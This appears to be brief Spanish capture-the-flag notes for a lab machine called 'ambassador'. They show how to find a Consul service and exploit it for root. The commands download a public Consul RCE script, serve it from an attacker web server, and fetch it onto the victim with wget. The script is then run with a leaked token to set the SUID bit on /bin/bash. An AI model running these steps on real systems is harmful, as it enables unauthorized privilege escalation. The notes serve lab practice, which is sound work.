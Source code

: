 

# IDENTIFICACIÓN
### IDENTIFICAR EN LA BIN
```shell
developer@ambassador:/opt/my-app$ which consul
```

### LISTAR PROCESO
```SHELL
developer@ambassador:/opt/my-app$ ps -aux | grep "consul"
```

# EXPLOTACIÓN
### RCE
```shell
#REPOSITORIO A UTILIZAR
https://github.com/owalid/consul-rce

#RECURSO DE INTERES.
❯ sudo wget https://raw.githubusercontent.com/owalid/consul-rce/refs/heads/main/consul_rce.py


#SERVIDOR LOCAL CON PYTHON
❯ sudo python3 -m http.server 80


#NOS TRAEMOS EL EXPLOIT A LA MÁQUINA VICTIMA
developer@ambassador:/tmp$ wget http://10.10.14.12/consul_rce.py

#A PARTIR DEL TOKEN LO EJECUTAMOS
developer@ambassador:/tmp$ python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct bb03b43b-1d81-d62b-24b5-39540ee469b5 -c "chmod u+s /bin/bash"
```


